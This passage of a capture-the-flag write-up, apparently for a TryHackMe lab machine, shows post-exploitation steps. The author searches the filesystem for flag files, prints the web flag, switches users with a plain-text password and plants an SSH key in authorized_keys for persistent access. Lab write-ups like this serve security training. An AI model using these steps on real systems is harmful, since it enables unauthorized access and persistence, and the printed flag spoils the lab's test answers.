Now we have a shell:
~~~
sh-4.4$ id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~

## Web Flag

Now we can start looking for the flags. To make things faster I used `find` command and found the we flag in `/usr/share/httpd/web.flag`:

~~~
sh-4.4$ find / -type f -name "*flag*" 2>/dev/null
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/vif-0/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/usr/bin/pflags
/usr/sbin/grub2-set-bootflag
/usr/share/man/man1/grub2-set-bootflag.1.gz
/usr/share/httpd/web.flag
sh-4.4$ cat /usr/share/httpd/web.flag
thm{0ae72f7870c3687129f7a824194be09d}
~~~

Web flag: `thm{0ae72f7870c3687129f7a824194be09d}`

# User Flag

## Switching to paradox

Now let's switch to user `pradox` and then we can add our SSH public key to `/home/paradox/.ssh/authorized_keys` to connect via SSH to get a proper shell:

~~~
sh-4.4$ su paradox
Password: ShibesAreGreat123
id
uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
~~~

Now create your public key using `ssh-keygen` (choose a simple password) and add the content of the file with `.pub` extention to `/home/paradox/.ssh/authorized_keys` and then copy the key to your machine and set its permission to 600 and now you can login via SSH:

~~~
$ ssh -i mykey paradox@$IP
The authenticity of host '10.10.7.25 (10.10.7.25)' can't be established.
ECDSA key fingerprint is SHA256:Zc/Zqa7e8cZI2SP2BSwt5iLz5wD3XTxIz2SLZMjoJmE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.7.25' (ECDSA) to the list of known hosts.
Enter passphrase for key 'mykey': 
Last login: Wed Oct 20 10:53:26 2021
[paradox@localhost ~]$ id
uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
~~~
